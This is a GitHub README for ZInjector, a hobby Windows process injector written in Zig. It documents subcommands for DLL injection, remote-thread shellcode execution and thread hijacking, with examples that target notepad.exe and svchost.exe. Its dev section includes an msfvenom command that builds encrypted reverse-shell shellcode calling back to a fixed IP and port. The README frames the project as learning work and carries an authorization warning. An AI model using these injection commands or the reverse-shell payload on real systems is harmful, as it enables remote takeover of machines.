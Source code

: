 # ZInjector

Simple Process injector for Windows (for now) written in Zig.


> [!NOTE]
> This is my first project in Zig, so the code is pretty rough. My goal is to learn Zig and perform process injection. I haven't decided what to implement yet, but the first steps are to learn Zig and carry out a simple process injection attack on Windows.

## Usage

### General syntax

```sh
zinjector <subcommand> [OPTIONS]
```

Most common:

* `zinjector --help` — general help
* `zinjector <subcommand> --help` — help for a subcommand

---

### Subcommands

#### `dll`

Performs a DLL injection into the target process.

Syntax:

```sh
zinjector dll --dll_path <path> (--pid <PID> | --process_name <name>)
```

Options:

* `--dll_path, -d` *(required)* — path to the DLL (e.g. `C:\tools\payload.dll`)
* `--pid, -p` — numeric PID of the target process
* `--process_name, -n` — executable name of the target process (e.g. `notepad.exe`)

Examples:

```sh
zinjector dll -d "C:\payloads\hook.dll" -p 1234
zinjector dll -d ./payload.dll -n notepad.exe
```

Notes:

* Provide **either** `--pid` **or** `--process_name`. If both are provided, behavior depends on implementation (prefer PID for precision).
* Ensure the DLL architecture (x86/x64) matches the target process architecture.
* Administrative privileges may be required.

---

#### `thread`

Creates a remote thread in the target process and runs an in-memory payload (shellcode).

Syntax:

```sh
zinjector thread (--pid <PID> | --process_name <name>)
```

Options:

* `--pid, -p` — numeric PID of the target process
* `--process_name, -n` — executable name of the target process

Examples:

```sh
zinjector thread -p 4321
zinjector thread -n Notepad.exe
```

Notes:

* The payload (shellcode) must be provided or obtained according to the implementation (file, stdin, embedded).
* Verify architecture and calling convention compatibility.
* Elevated privileges may be necessary.

---

#### `hijacking`

Performs thread hijacking: suspends a target thread, modifies its context, and resumes it to execute the payload.

Syntax:

```sh
zinjector hijacking --pid <PID>
```

Options:

* `--pid, -p` — numeric PID of the target process (recommended)

Examples:

```sh
zinjector hijacking -p 5555
```

---

### Full examples

```sh
# Inject DLL by PID
zinjector dll -d "C:\tools\inject.dll" -p 1010

# Run shellcode via remote thread by process name
zinjector thread -n svchost.exe

# Hijack thread in process
zinjector hijacking -p 2020
```

---

## Some cool resource for learning Zig and Process Injection

- [Zig Guide](https://zig.guide/)
- [Zig Standard Library](https://ziglang.org/documentation/master/std/)
- [LearnXInYMinutes](https://learnxinyminutes.com/zig/)
- [Process Injection Techniques](https://www.ired.team/offensive-security/code-injection-process-injection)
- [MITRE](https://attack.mitre.org/techniques/T1055/)
- [DLL Injector C++](https://github.com/leetCipher/Malware.development/tree/main/dll-injector)
- [Cool cheasheet (zig_in_depth)](https://codeberg.org/dude_the_builder/zig_in_depth)
- https://github.com/marlersoft/zigwin32/tree/main
- https://raw.githubusercontent.com/marlersoft/zigwin32/refs/heads/main/win32/everything.zig
- https://black-hat-zig.cx330.tw/
- https://privdayz.com/tools/shellcode-gen

### Legal and safety warning

These techniques modify other processes and can be used maliciously. Use only on machines and processes for which you have explicit authorization. The author assumes no responsibility for misuse.

## Dev

- Zig Version: 0.15.2
- OS: Arch Linux
- IDE: Zed
- LSP: Zls

Deps for cross-compiler on linux:  mingw-w64-headers,mingw-w64-gcc

## Todo:

- [x] PoC
- [x] Resolution of relative path to absolute path
- [x] Search process by name
- [x] Implement arguments parsing
- [x] Thread Remote creation with shellcode injection
- [ ] SetWindowHookEx Code Injection
- [ ] ...

## Command for dev/testing:

- Compile: `zig build -Dtarget=x86_64-windows -Dport=8080 -Dipv4=172.19.192.194 -Doptimize=ReleaseSmall --summary all`
- Test: `zig build test --summary all`
- Shellcode generator: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.118 LPORT=8080 -f zig --encrypt xor --encrypt-key a`
